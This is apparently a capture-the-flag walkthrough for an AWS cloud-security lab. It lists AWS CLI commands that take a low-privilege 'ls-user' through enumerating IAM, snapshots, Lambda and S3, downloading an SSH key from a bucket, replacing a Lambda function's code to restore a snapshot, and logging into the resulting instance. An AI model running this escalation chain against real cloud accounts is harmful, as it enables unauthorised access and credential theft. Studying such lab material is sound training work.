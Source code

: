 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

3. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

   Optional: Attempt to restore the snapshot as the ls-user directly (Will not work)
   ```
   aws --profile ls-user --region us-east-1 ec2 create-volume --snapshot-id <snapshot-id> --availability-zone us-east-1a
   ```
   
5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key ./ssh_key.pem
   ```

   *Dont forget to change the permissions of the ssh key*
      ```
      chmod 400 ssh_key.pem
      ```
8. List AMIs:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
   ```

8. List subnets:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-subnets
   ```

9. List security groups:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-security-groups
   ```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i "ssh_key.pem" ubuntu@<public-dns>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





